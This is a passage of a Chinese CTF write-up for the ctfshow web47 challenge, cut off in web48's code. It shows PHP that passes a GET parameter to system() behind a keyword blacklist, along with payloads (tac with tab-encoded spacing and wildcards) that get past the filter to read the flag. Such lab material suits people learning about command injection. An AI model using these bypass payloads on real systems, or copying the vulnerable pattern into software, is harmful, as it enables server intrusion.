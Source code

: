 #### web47

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤这么多O.o？

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail

但是幸好我用的是tac

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```

#### web48

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
```